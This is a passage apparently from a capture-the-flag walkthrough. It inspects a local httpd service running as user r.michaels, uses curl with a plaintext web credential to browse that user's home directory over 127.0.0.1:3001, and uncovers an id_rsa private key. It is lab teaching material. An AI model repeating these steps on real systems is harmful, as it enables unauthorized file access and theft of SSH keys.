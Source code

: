 From the output above, we can see that the command being run is as follows:

> /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd\_devel.pid -U r.michaels -b /home/r.michaels/devel/www

This means that when we access the service on port 3001 locally, after authenticating, we are accessing files inside "r.michaels" home directory, which we otherwise would not have access to, as shown below:

```
$ cat /home/r.michaels/devel/webapi/weather.lua
cat: /home/r.michaels/devel/webapi/weather.lua: Permission denied
$ 
```

Let's see what we can find:

> curl --user webapi\_user:iamthebest http://127.0.0.1:3001/home/r.michaels/

```
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/home/r.michaels/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   230  100   230    0     0  46000      0 --:--:-- --:--:-- --:--:-- 46000
<html><head><title>404 Not Found</title></head>
<body><h1>404 Not Found</h1>
home/r.michaels/index.html: <pre>This item has not been found</pre>
<hr><address><a href="//127.0.0.1:3001/">127.0.0.1:3001</a></address>
</body></html>
$
```

By default, curl is looking for an index file. After some more trial and error, we issue the following command with some interesting output:

> curl --user webapi\_user:iamthebest http://127.0.0.1:3001/\~r.michaels/

```
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   195k      0 --:--:-- --:--:-- --:--:--  293k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>

$ 
```
